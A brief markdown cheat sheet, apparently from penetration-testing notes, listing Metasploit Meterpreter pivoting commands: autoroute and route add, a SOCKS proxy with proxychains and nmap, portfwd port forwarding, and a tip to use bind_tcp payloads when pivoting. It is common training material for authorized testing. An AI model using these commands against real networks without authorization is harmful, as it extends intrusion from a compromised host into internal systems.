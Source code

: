 # Meterpreter
#### Route
  * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or
  * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding


